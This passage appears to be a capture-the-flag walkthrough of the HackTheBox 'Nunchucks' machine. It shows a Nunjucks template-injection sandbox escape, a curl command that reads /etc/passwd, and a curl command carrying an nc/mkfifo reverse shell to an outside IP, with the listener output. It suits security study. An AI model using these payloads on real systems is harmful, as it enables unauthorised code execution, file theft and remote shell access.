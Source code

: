 There's a template engine called Nunjucks, which is very suspicious as that is almost the same name as this box. Following that we end up at a Github repo [here](https://github.com/mozilla/nunjucks). A search for "nunjucks ssti" finds [this](https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-nodejs-nunjucks/) and then to [this](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine). This last article explains a sandbox break out which can easily be followed by using the described payload:

```text
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

We just need to escape the single and double quotes by putting a backslash in front of them, then use curl to deliver:

```sh
┌──(root💀kali)-[~/htb/nunchucks]
└─# curl -s -k -X POST -H $'Content-Type: application/json' --data-binary $'{\"email\":\"{{range.constructor(\\\"return global.process.mainModule.require(\'child_process\').execSync(\'tail /etc/passwd\')\\\")()}}@pencer.io\"\x0d\x0a}' 'https://store.nunchucks.htb/api/submit' | sed 's/{"response":"You will receive updates on the following email address: //' | sed 's/\\n/\n/g' | sed 's/@pencer.io.\"}//'
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
rtkit:x:113:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
geoclue:x:115:120::/var/lib/geoclue:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:117:123:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:118:124::/var/lib/saned:/usr/sbin/nologin
colord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:120:126:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
mysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false
```

## Reverse Shell

I've used sed to tidy up the output and make it more readable. With that working let's try for a reverse shell:

```sh
┌──(root💀kali)-[~/htb/nunchucks]
└─# curl -s -k -X POST -H $'Content-Type: application/json' --data-binary $'{\"email\":\"{{range.constructor(\\\"return global.process.mainModule.require(\'child_process\').execSync(\'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1337 >/tmp/f\')\\\")()}}\"\x0d\x0a}' 'https://store.nunchucks.htb/api/submit'
```

Switch to a waiting nc listener to see our connection:

```sh
┌──(root💀kali)-[~/htb/nunchucks]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.122] 60976
```
